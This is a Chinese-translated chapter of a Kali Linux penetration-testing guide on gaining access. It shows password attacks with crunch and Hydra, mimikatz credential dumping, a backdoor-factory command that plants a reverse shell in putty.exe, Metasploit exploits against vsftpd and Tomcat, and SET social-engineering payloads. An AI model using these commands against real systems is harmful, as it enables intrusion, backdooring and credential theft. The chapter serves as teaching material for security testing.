# 十四、获得网络访问权

在本章中，我们将深入了解如何使用各种技术和隐蔽渠道访问受损系统。我们将学习访问受损系统所需的各种技能，包括密码破解、生成后门和使用欺骗性社会工程技术。

本章将介绍以下主题：

*   获得远程访问
*   破解密码
*   使用后门工厂创建后门
*   使用 Metasploit 开发远程服务
*   使用 RouterSploit 攻击嵌入式设备
*   使用集合的社会工程

# 获得远程访问

到目前为止，在本书中，我们已经看到了各种技术和工具，可以用来收集有关目标的信息，并枚举系统上运行的服务。我们还简要介绍了使用 OpenVAS 的漏洞评估过程。遵循这些阶段后，我们现在应该有足够的关于目标的信息，以便实际破坏系统并获得访问权限。

可以通过以下两种可能的方式之一访问远程系统：

*   直接访问
*   路由器后面的目标

# 直接访问


在这种情况下，攻击者可以直接访问目标系统。攻击者基本上知道目标系统的 IP 地址并远程连接。然后，攻击者利用目标系统上的现有漏洞进行进一步访问。

# 路由器后面的目标



在此场景中，目标机器位于启用了**网络地址转换**（**NAT**的路由器或防火墙后面。目标系统具有专用 IP 地址，无法通过 internet 直接访问。攻击者只能访问路由器/防火墙的公共接口，但无法访问目标系统。在这种情况下，攻击者必须通过电子邮件或 messenger 向受害者发送某种有效负载，一旦受害者打开有效负载，它将通过路由器/防火墙与攻击者建立反向连接。

# 破解密码

密码是验证用户进入系统的基本机制之一。在信息收集和枚举阶段，我们可能会遇到目标上运行的各种受密码保护的服务，如 SSH、FTP 等。为了访问这些服务，我们希望使用以下一些技术破解密码：

*   **字典攻击**：在字典攻击中，我们向密码破解程序提供一个包含大量单词的文件。然后，密码破解程序会将提供的文件中的所有单词作为目标系统上可能的密码进行尝试。如果匹配，我们将获得正确的密码。在 Kali Linux 中，有几个单词列表可用于密码破解。这些单词列表位于`/usr/share/wordlists`中，如下图所示：



*   **暴力攻击**：如果密码不是我们提供的单词列表中的任何单词，那么我们可能不得不发起暴力攻击。在暴力攻击中，我们首先指定最小长度、最大长度和自定义字符集。然后，密码破解程序尝试将此字符集形成的所有排列和组合作为目标上的可能密码。然而，这个过程既耗费资源又耗费时间。
*   **彩虹表**：密码永远不会以纯文本格式存储在系统上。它总是使用某种算法进行散列，以使其不可读。Rainbow 表具有给定字符集内密码的预计算哈希。如果我们有来自目标系统的密码散列，那么我们可以将它们提供给 rainbow 表。彩虹表将在其现有哈希表中尝试可能的匹配。与暴力相比，这种方法工作速度非常快，但需要大量的计算资源和存储空间来存储彩虹表。此外，如果密码散列与 salt 一起存储，彩虹表也会失败。

# 识别散列

正如我们在上一节中了解到的，密码永远不会以纯文本格式存储，并且总是使用某种算法进行散列。为了破解密码散列，我们首先必须确定用于散列密码的算法。Kali Linux 有一个名为`hash-identifier`的工具，它将密码哈希作为输入，并告诉我们可能使用的哈希算法，如下图所示：


# 破解 Windows 密码

Windows 操作系统将密码存储在名为**安全帐户管理器**（**SAM**的文件）中，使用的哈希算法类型为 LM 或 NTLM。

我们首先利用远程 Windows 系统中的 SMB 漏洞，并使用 Metasploit 获取 MeterMeter 访问权限，如下图所示。MeterMeter 有一个非常有用的实用程序，名为`mimikatz`，可用于从受损系统中转储哈希甚至纯文本密码。我们使用命令`load mimikatz`启动此工具。然后我们使用命令`kerberos`来显示纯文本凭证。我们知道用户`shareuser`有密码`admin`。使用`msv`命令，我们还可以从受损系统中转储原始散列。


# 密码分析

在上一节中，我们已经了解了字典攻击。在与组织的特定接触期间，我们可能会识别用于所有密码的特定模式。因此，我们可能需要一个与特定模式内联的单词列表。密码分析帮助我们生成符合特定模式的单词列表。

Kali Linux 有一个叫做 crunch 的工具，它可以帮助我们使用自定义模式生成单词列表。

```
crunch 3 5 0123456789abcdefghijklmnopqrstuvwxyz
```

上述语法将生成一个单词列表，其中包含最小长度`3`、最大长度`5`的单词，并包含字符集`0123456789abcedefghijklmnopqrstuvwxyz`中所有可能的排列和组合。如需进一步帮助，我们可以使用`man crunch`命令参考 crunch 帮助，如下图所示：



# 密码破解与九头蛇

Hydra 是一个非常强大和高效的密码破解工具，它是默认 Kali Linux 安装的一部分。Hydra 能够破解各种协议（如 FTP、SSH、HTTP 等）的密码。Hydra 可以从终端启动，如下图所示：

```
hydra -l user -P passlist.txt ftp://192.168.25.129
```

前面的命令将对运行在 IP 地址`192.168.25.129`上的 FTP 服务器发起密码破解攻击，并尝试单词列表`passlist.txt`中的所有密码。


# 使用后门工厂创建后门

快速浏览一下*backdoor*一词的字典含义，我们会发现*是通过使用间接或不诚实的手段*实现的。在计算世界中，后门是隐藏的东西，用于秘密进入系统。例如，如果我们从某个未知的人那里得到一个普通的可执行文件，我们可能会产生怀疑。然而，如果我们得到一个真正的外观安装程序，然后我们可能会执行它。但是，该安装程序可能有一个隐藏的后门，可能会向攻击者打开我们的系统。

创建后门通常需要使用外壳代码修补外观真实的可执行文件。Kali Linux 有一个特殊的工具`backdoor-factory`，帮助我们创建后门。`backdoor-factory`可以从终端启动，如下图所示：



现在执行命令，如下图所示：

```
root@kali:~# backdoor-factory -f /root/Desktop/putty.exe -s reverse_shell_tcp_inline -H  192.168.25.128 -P 8080
```

此命令将打开位于`/root/Desktop`的文件`putty.exe`，将反向 TCP 外壳注入可执行文件，并将后门配置为连接到端口`8080`上的 IP 地址`192.168.25.128`。



# 使用 Metasploit 开发远程服务

在我们继续开发远程目标系统上的服务之前，我们必须知道所有服务都在运行，以及它们的确切版本。我们可以进行快速 Nmap 扫描以列出服务版本信息，如下图所示：



前面的结果显示有许多正在运行的服务，我们可以使用 Metasploit 来利用这些服务。

# 利用 vsftpd

通过 Nmap 扫描和枚举，我们知道我们的目标正在运行 FTP 服务器。服务器版本为 vsftpd 2.3.4，在端口`21`上处于活动状态。我们使用`msfconsole`命令打开 Metasploit 框架，然后搜索任何与 vsftp 匹配的漏洞，如下图所示。Metasploit 有一个漏洞`vsftpd_234_backdoor`，我们可以使用它来破坏目标。


我们选择 vsftp 漏洞并将`RHOST`参数设置为目标的 IP 地址。然后，我们运行如下图所示的漏洞利用。该漏洞利用成功，并打开了一个命令外壳。使用`whoami`命令，我们可以知道我们已经获得了对目标的根访问权限。



# 利用雄猫

通过 Nmap 扫描和枚举，我们知道我们的目标运行的是 ApacheTomcatWeb 服务器。它在端口`8180`上处于活动状态。我们可以通过浏览器点击`8180`端口上的目标 IP，看到 web 服务器默认页面，如下图所示：


现在，我们打开 Metasploit 控制台，搜索任何与 Tomcat 服务器匹配的漏洞，如下图所示：


我们将使用下图所示的漏洞`tomcat_mgr_deploy`。我们隐式地选择漏洞有效负载为`java/meterpreter/reverse_tcp`，然后配置其他选项，如 RHOST、LHOST、默认用户名/密码和目标端口。



该漏洞利用成功，并为我们提供了一个 MeterMeter 会话。

# 使用 RouterSploit 攻击嵌入式设备

在上一节中，我们了解了如何有效地使用 Metasploit 来利用远程服务。目标主要是 Windows 和 Linux 操作系统。互联网连接设备的数量正在迅速增加。这些设备具有嵌入式固件，也容易受到攻击

RouterSploit 是一个命令行工具，可用于开发嵌入式设备。但是，它不是默认 Kali Linux 安装的一部分。我们可以使用命令`apt-get install routersploit`安装 RouterSploit。安装完成后，可通过键入`routersploit`从终端启动，如下图所示：



RouterSploit 的界面与 Metasploit 控制台的界面非常相似。我们可以使用`scanners/autopwn`选项快速扫描目标设备，如下图所示。我们只需设置目标 IP 地址并运行扫描器。


# 使用集合的社会工程

在本章的第一节中，我们看到了两种可能的利用场景。攻击者可以直接访问目标系统，或者目标系统位于路由器/防火墙后面，攻击者只能到达路由器/防火墙的公共接口。

在第二种情况下，攻击者必须向受害者发送某种负载，并诱骗他执行负载。一旦执行，它将建立与攻击者的反向连接。这是一种隐蔽的技术，涉及到社会工程的使用。

Kali Linux 为执行各种社会工程攻击提供了一个优秀的框架。可以在应用开发工具集访问社会工程工具包。

SET 的初始屏幕提供了与社会工程攻击相关的各种选项，如下图所示：



我们选择选项`1) Social-Engineering Attacks`，然后我们会看到一系列攻击，如下图所示：



我们选择选项`4) Create a Payload and Listener`，然后选择有效载荷`Windows Shell Reverse_TCP`。然后，我们为侦听器设置 IP 地址和端口，如下图所示：


SET 会自动启动 Metasploit 并启动侦听器。一旦受害者下载并执行有效负载，MeterMeter 会话就会打开，如下图所示：


# 总结

在本章中，我们介绍了访问目标系统的各种工具和技术，包括破解密码、创建后门、利用服务和发动社会工程攻击。